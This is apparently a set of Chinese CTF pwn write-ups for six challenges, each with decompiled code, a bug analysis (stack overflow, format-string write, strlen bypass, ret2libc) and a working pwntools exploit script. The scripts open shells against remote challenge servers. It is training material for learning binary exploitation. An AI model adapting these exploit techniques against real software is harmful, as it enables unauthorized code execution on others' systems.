








# PWN challenges

## [NewStarCTF 公开赛赛道]ret2shellcode

这是一道ret2shellcode的题型，但是通过checksec发现启用`PIE`保护，不能在`.bss`段写入`shellcode`

> 

查看`IDA`反编译信息

```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  _BYTE v4[40]; // [rsp+0h] [rbp-30h] BYREF
  void *buf; // [rsp+28h] [rbp-8h]

  init(argc, argv, envp);
  buf = mmap((void *)0x233000, 0x1000uLL, 7, 34, -1, 0LL);
  puts("Hello my friend.Any gift for me?");
  read(0, buf, 0x100uLL);
  puts("Anything else?");
  read(0, v4, 0x100uLL);
  puts("Ok.See you!");
  return 0;
}
```

- 第7行`mmap()`创建了一个缓冲区`buf`，大小为`0x1000`字节，重点是拥有`7`权限，即`rwx`权限

- 第9行向缓冲区`buf`中写入数据，总长度`0x100`字节
- 第11行向缓冲区`v4`写入数据，总长度`0x100`字节

根据`IDA`的分析来说，既然`buf`拥有`rwx`权限，那么我们可以向`buf`中写入`shellcode`，但是不能直接溢出`buf`，因为第一个`read()`限制了写入的数据长度`0x100`，该长度远远小于`buf`允许的最大长度`0x1000`，因此需要利用第二个`read()`，第二个`read()`写入的缓冲区`v4`仅有40字节，完全满足溢出条件

同时，`mmap()`函数也指定了缓冲区的内存地址`0x233000`，这一点也可以在`pwndbg`中验证

> 

然后计算从`v4`到`rbp`的长度

> 

从上图可以得出，从`rsp`到`rbp`共`0x30`个字节，加上`rbp`本身8字节，共需要溢出`0x38`个字节

**exp**

```py
from pwn import *

context.arch = 'amd64'

buf_addr = 0x233000
shellcode = asm(shellcraft.amd64.sh())
payload = b'A' * 0x38 + p64(buf_addr)

io = remote('node5.buuoj.cn', 28144)
io.sendline(shellcode)
io.recv()
io.sendline(payload)
io.interactive()
```

运行脚本，得到flag

> 

## pwn1_sctf_2016

主要看`vuln()`函数

```c
int vuln()
{
  const char *v0; // eax
  char s[32]; // [esp+1Ch] [ebp-3Ch] BYREF
  _BYTE v3[4]; // [esp+3Ch] [ebp-1Ch] BYREF
  _BYTE v4[7]; // [esp+40h] [ebp-18h] BYREF
  char v5; // [esp+47h] [ebp-11h] BYREF
  _BYTE v6[7]; // [esp+48h] [ebp-10h] BYREF
  _BYTE v7[5]; // [esp+4Fh] [ebp-9h] BYREF

  printf("Tell me something about yourself: ");
  fgets(s, 32, edata);
  std::string::operator=(&input, s);
  std::allocator<char>::allocator(&v5);
  std::string::string(v4, "you", &v5);
  std::allocator<char>::allocator(v7);
  std::string::string(v6, "I", v7);
  replace(v3);
  std::string::operator=(&input, v3, v6, v4);
  std::string::~string(v3);
  std::string::~string(v6);
  std::allocator<char>::~allocator(v7);
  std::string::~string(v4);
  std::allocator<char>::~allocator(&v5);
  v0 = std::string::c_str(&input);
  strcpy(s, v0);
  return printf("So, %s\n", s);
}
```

大致内容是`fgets()`接收32字节的输入，传入`s`字符数组，然后执行替换函数`replace`，将`s`中的`I`替换为`you`，最后通过`strcpy()`将替换的结果返还`s`字符数组

这道题便是利用替换函数进行溢出，`s`位于`ebp - 0x3C`的位置，即60字节，只需要传入20个`I`，经过替换函数替换为20个`you`，然后拼接`ebp`和`ret_addr`即可，这道题的`ret_addr`是`get_flag()`函数，位于`0x08048F0D`

```c
int get_flag()
{
  return system("cat flag.txt");
}
```

**exp**

```py
from pwn import *

# sh = process('./pwn1_sctf_2016')
sh = remote('node5.buuoj.cn', 25308)

binsh = 0x8048F0D
payload = flat([b'I' * 20, b'aaa', binsh])
sh.sendline(payload)
sh.interactive()
```

> 

## [第五空间2019 决赛]PWN5

典型格式化字符串漏洞

```c
int __cdecl main(int a1)
{
  time_t v1; // eax
  int result; // eax
  int fd; // [esp+0h] [ebp-84h]
  char nptr[16]; // [esp+4h] [ebp-80h] BYREF
  char buf[100]; // [esp+14h] [ebp-70h] BYREF
  unsigned int v6; // [esp+78h] [ebp-Ch]
  int *v7; // [esp+7Ch] [ebp-8h]

  v7 = &a1;
  v6 = __readgsdword(0x14u);
  setvbuf(stdout, 0, 2, 0);
  v1 = time(0);
  srand(v1);
  fd = open("/dev/urandom", 0);
  read(fd, &dword_804C044, 4u);
  printf("your name:");
  read(0, buf, 99u);
  printf("Hello,");
  printf(buf);
  printf("your passwd:");
  read(0, nptr, 0xFu);
  if ( atoi(nptr) == dword_804C044 )
  {
    puts("ok!!");
    system("/bin/sh");
  }
  else
  {
    puts("fail");
  }
  result = 0;
  if ( __readgsdword(0x14u) != v6 )
    sub_80493D0();
  return result;
}
```

第24行`if`判断输入等于`dword_804C044`就`getshell`，而19行`read(0, buf, 99u)`和21行`print(buf)`意味着能直接利用`buf`进行任意写

先判断偏移量

> 

> 

`esp`是格式化字符串的位置，`buf`位于`esp + 0x28`，偏移值为10

因此只需要写入`dword_804C044_addr + %10$n`，就可以将`dword_804C044`的值改为4，然后传入4即可`getshell`

**exp**

```py
from pwn import *

# context.arch = 'amd64'

# sh = process('./pwn')
sh = remote('node5.buuoj.cn', 29741)

r = 0x0804C044
payload = p32(r) + b'%10$n'
sh.recv()
sh.sendline(payload)
sh.recv()
sh.sendline(str(4))
sh.interactive()
```

注意后面的判断是通过`atoi()`函数进行的，会将`str`转换为`int`，因此在传入的时候就必须是`str`

> 

## ciscn_2019_n_8

有趣的一道题

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4; // [esp-14h] [ebp-20h]
  int v5; // [esp-10h] [ebp-1Ch]

  var[13] = 0;
  var[14] = 0;
  init();
  puts("What's your name?");
  __isoc99_scanf("%s", var, v4, v5);
  if ( *&var[13] )
  {
    if ( *&var[13] == 17LL )
      system("/bin/sh");
    else
      printf(
        "something wrong! val is %d",
        var[0],
        var[1],
        var[2],
        var[3],
        var[4],
        var[5],
        var[6],
        var[7],
        var[8],
        var[9],
        var[10],
        var[11],
        var[12],
        var[13],
        var[14]);
  }
  else
  {
    printf("%s, Welcome!\n", var);
    puts("Try do something~");
  }
  return 0;
}
```

这道题开启了所有保护，因此不能通过正常途径`getshell`

仔细来看代码，`scanf()`接收了`%s`到数组`var[]`，第13行`if`判断当`var[13] == 17`的时候可以直接`getshell`，也就是说只需要构造一串数据，让`scanf()`为`var[13]`赋值17即可，但这里需要注意`var[]`的数据类型

C语言中，一般的数组类型有两种，一种是`char`类型，另一种是`int`类型，`char`类型的数组每个元素只占据1字节，而`int`类型的数组每个元素需要占据4字节，我们访问`var[]`，来看看数据类型

```assembly
.bss:00004060                 public var
.bss:00004060 ; _DWORD var[15]
.bss:00004060 var             dd 0Fh dup(?)           ; DATA XREF: main+28↑o
.bss:00004060                                         ; main+56↑o ...
.bss:00004060 _bss            ends
.bss:00004060
```

很显然，`var[]`的数据类型是`_DWORD`，`_DWORD`是windows中常见的类型别名，通常定义为 `unsigned int` 或 `unsigned long`，占据4字节空间，所以，最后的

**exp**

```py
from pwn import *

# context.arch = 'amd64'

sh = process('./ciscn_2019_n_8')
# sh = remote('node5.buuoj.cn', 27558)

payload = b'aaaa' * 13 + p32(17)
sh.sendline(payload)
sh.interactive()
```

## ciscn_2019_c_1

跟普通的ROP题目有点不同

```c
int encrypt()
{
  size_t v0; // rbx
  char s[48]; // [rsp+0h] [rbp-50h] BYREF
  __int16 v3; // [rsp+30h] [rbp-20h]

  memset(s, 0, sizeof(s));
  v3 = 0;
  puts("Input your Plaintext to be encrypted");
  gets(s);
  while ( 1 )
  {
    v0 = x;
    if ( v0 >= strlen(s) )
      break;
    if ( s[x] <= 96 || s[x] > 122 )
    {
      if ( s[x] <= 64 || s[x] > 90 )
      {
        if ( s[x] > 47 && s[x] <= 57 )
          s[x] ^= 0xFu;
      }
      else
      {
        s[x] ^= 0xEu;
      }
    }
    else
    {
      s[x] ^= 0xDu;
    }
    ++x;
  }
  puts("Ciphertext");
  return puts(s);
}
```

这题的漏洞点在`encrypt()`函数中，而函数的第14行存在一个`if ( v0 >= strlen(s) )`，`v0 = x`，而我们并不知道`x`的具体值，因此在进行栈溢出的时候，可能会因为输入的长度大于`x`导致程序中断

实际泄露后发现是91

> 

很明显91字节完全不够用，缓冲区都有88字节，所以这里使用`\0`来绕过`strlen()`的检查

**exp**

```py
from pwn import *
from LibcSearcher import *

context.arch = 'amd64'

# sh = process('./pwn0')
sh = remote('node5.buuoj.cn', 26638)
elf = ELF('./pwn0')

print(sh.recv())
sh.sendline('1')
print(sh.recv())

rdi = 0x0400c83
ret = 0x04006b9
x = 0x06020AC
puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
encrypt = elf.symbols['encrypt']

payload = flat([b'\0', b'a' * 0x57, rdi, puts_got, puts_plt, encrypt])
sh.sendline(payload)
sh.recv()
puts_addr = u64(sh.recvuntil(b'\x7f')[12:].ljust(8, b'\x00'))
print(hex(puts_addr))

libc = LibcSearcher('puts', puts_addr)
base = puts_addr - libc.dump('puts')
system = base + libc.dump('system')
binsh = base + libc.dump('str_bin_sh')

payload = flat([b'\0', b'a' * 0x57, ret, rdi, binsh, system, b'aaaa'])
sh.sendline(payload)
sh.interactive()
```

> 

## get_started_3dsctf_2016

这道题有两种方式，这里使用的是返回`get_flag()`函数的方式，另一种返回`mportect()`函数的方式详见<a href="./pwn_medium.md">pwn_medium</a>中的`mprotect`一项

查看`main()`函数，`v4`存在栈溢出

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char v4[56]; // [esp+4h] [ebp-38h] BYREF

  printf("Qual a palavrinha magica? ", v4[0]);
  gets(v4);
  return 0;
}
```

而函数表中，存在一个自定义函数`get_flag()`

```c
void __cdecl get_flag(int a1, int a2)
{
  int v2; // esi
  unsigned __int8 v3; // al
  int v4; // ecx
  unsigned __int8 v5; // al

  if ( a1 == 0x308CD64F && a2 == 0x195719D1 )
  {
    v2 = fopen("flag.txt", "rt");
    v3 = getc(v2);
    if ( v3 != 255 )
    {
      v4 = (char)v3;
      do
      {
        putchar(v4);
        v5 = getc(v2);
        v4 = (char)v5;
      }
      while ( v5 != 255 );
    }
    fclose(v2);
  }
}
```

`get_flag()`函数的大致内容是判断`a1 == 0x308CD64F && a2 == 0x195719D1`即可输出`flag.txt`，所以只需要在`main()`返回`get_flag()`时携带两个参数即可

不过这道题稍微有些不同，首先是它的`main()`函数的栈帧中没有`prev ebp`，即溢出长度不需要加4

> 

同时这道题如果想要程序正常输出`flag.txt`的内容，`get_flag()`函数必须返回一个正常的函数地址，否则程序会报错终止。这里我们便使用`exit()`函数

> 

**exp**

```py
from pwn import *

# sh = process('./pwn0')
sh = remote('node5.buuoj.cn', 25054)

flag = 0x080489A0
exit = 0x0804E6A0
payload = flat([cyclic(56), flag, exit, 0x308CD64F, 0x195719D1])
sh.sendline(payload)
print(sh.recv())
```

> 
